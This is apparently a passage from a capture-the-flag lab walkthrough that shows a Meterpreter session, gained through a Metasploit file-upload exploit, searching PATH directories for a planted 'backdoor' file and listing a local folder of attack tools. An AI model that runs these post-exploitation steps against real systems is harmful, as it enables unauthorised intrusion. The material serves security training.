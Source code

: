 There is a file with string “ckdo” in its name in one of the places included in PATH variable. Print the flag hidden in that file.

`/usr/bin\backdoor`

```
meterpreter > search -d /usr/local/sbin -f *ckdo*
No files matching your search were found.
meterpreter > search -d /usr/local/bin -f *ckdo*
No files matching your search were found.
meterpreter > search -d /usr/sbin -f *ckdo*
No files matching your search were found.
meterpreter > search -d /usr/bin -f *ckdo*
Found 1 result...
    /usr/bin\backdoor (66 bytes)
meterpreter > search -d /sbin -f *ckdo*
No files matching your search were found.
meterpreter > search -d /bin -f *ckdo*
No files matching your search were found.
```

Change to tools directory on the local machine.

```
meterpreter > 
Background session 1? [y/N]  
msf5 exploit(unix/webapp/xoda_file_upload) > pwd
[*] exec: pwd

/root
msf5 exploit(unix/webapp/xoda_file_upload) > ls -l
[*] exec: ls -l

total 20
-rw-r--r-- 1 root root  293 Feb  7  2019 README
-rw-r--r-- 1 root root  208 Oct  6  2018 flag5.zip
-rw-r--r-- 1 root root   22 Oct  6  2018 list
drwxr-xr-x 1 root root 4096 May 26  2019 tools
drwxr-xr-x 2 root root 4096 Feb  7  2019 wordlists
msf5 exploit(unix/webapp/xoda_file_upload) > cd tools
msf5 exploit(unix/webapp/xoda_file_upload) > ls -l
[*] exec: ls -l

total 48
drwxr-xr-x 2 root root 4096 Feb  7  2019 Delorean
drwxr-xr-x 5 root root 4096 May 16  2019 GitTools
drwxr-xr-x 3 root root 4096 Feb  7  2019 JohnTheRipper
drwxr-xr-x 5 root root 4096 Apr 28  2019 exfil
drwxr-xr-x 2 root root 4096 Feb  7  2019 firepwd
drwxr-xr-x 2 root root 4096 Feb  7  2019 ircsnapshot
drwxr-xr-x 2 root root 4096 Feb  7  2019 known_hosts-hashcat
drwxr-xr-x 2 root root 4096 May 14  2019 portable
drwxr-xr-x 2 root root 4096 Feb  7  2019 reGeorg
drwxr-xr-x 3 root root 4096 Feb  7  2019 scripts
drwxr-xr-x 1 root root 4096 May 26  2019 srtp-decrypt
drwxr-xr-x 2 root root 4096 Feb  7  2019 steganography
```

